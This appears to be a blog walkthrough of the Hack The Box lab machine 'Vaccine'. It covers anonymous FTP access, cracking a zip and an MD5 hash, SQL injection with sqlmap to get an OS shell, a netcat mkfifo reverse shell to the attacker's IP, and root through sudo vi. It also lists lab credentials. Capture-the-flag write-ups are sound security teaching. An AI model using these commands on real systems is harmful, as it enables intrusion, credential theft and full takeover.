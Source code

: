 ```yaml
---
layout: post
title: 'HTB | Vaccine'
permalink: /htb/starting-point/vaccine/
---
```


# Enumeration
First we scan the IP:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 13:27 EDT
Nmap scan report for 10.129.13.233
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
{% endhighlight %}

# Explotation

### FTP
We would try to login with a default user in the ftp:
{% highlight bash %}
> ftp anonymous@10.129.13.233
Password: 
230 Login successful.
{% endhighlight %}

We can try to navigate throw the FTP:
{% highlight bash %}
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
ftp> cd ..
{% endhighlight %}
We can download the zip, but we can not navigate to other directory.

If we try to unzip but it ask for a password. We need to crack the password:
{% highlight bash %}
> sudo zip2john backup.zip > ziphash  
> sudo john ziphash --fork=10 -w=/usr/share/wordlists/rockyou.txt
    741852963
{% endhighlight %}

There we have logins to the webpage, but the password is encrypted.
We can see that is a md5 with **hash-identifier**. If we search it we can get the plain text: **qwerty789**.
Now we can login in the page.

### SQL
We can see that we have a table, if we search on it the url change:
{% highlight plain %}
http://10.129.13.233/dashboard.php?search=
{% endhighlight %}

It seems to have a <a href="{{ "/notes/databases/sql/" | prepend: site.baseurl }}">SQLi</a>, so we can try to use **sqlpmap**:
{% highlight bash %}
sqlmap -r req
{% endhighlight %}
Where **req**:
{% highlight plain %}
GET /dashboard.php?search=a HTTP/1.1
Host: 10.129.13.233
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.13.233/dashboard.php
Connection: close
Cookie: PHPSESSID=05ndh3sf35jpa3l93oj9afdlgf
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
{% endhighlight %}

We check that it has a SQLi, then we can start a reverse shell:
{% highlight bash %}
sqlmap -r req --os-shell
{% endhighlight %}
We should start a reverse shell in the **os-shell>** to more accessibility. We will open a port in our host and send this command on **Vaccine**:
{% highlight bash %}
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.167 9000 >/tmp/f
{% endhighlight %}


# Privilage Escalation
We can go to **/var/www/html** and search for credentials with:
{% highlight bash %}
> cat * | grep pass
{% endhighlight %}
We can see the credentials: **postgres:P@s5w0rd!**. Now we can try:
{% highlight bash %}
> script /dev/null -c bash # To get a better shell
> sudo -l
    User postgres may run the following commands on vaccine:
        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
{% endhighlight %}

Now, we will execute vi.
{% highlight bash %}
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
{% endhighlight %}
Afterwards, we execute:
{% highlight bash %}
:!/bin/bash
{% endhighlight %}
And now we are root.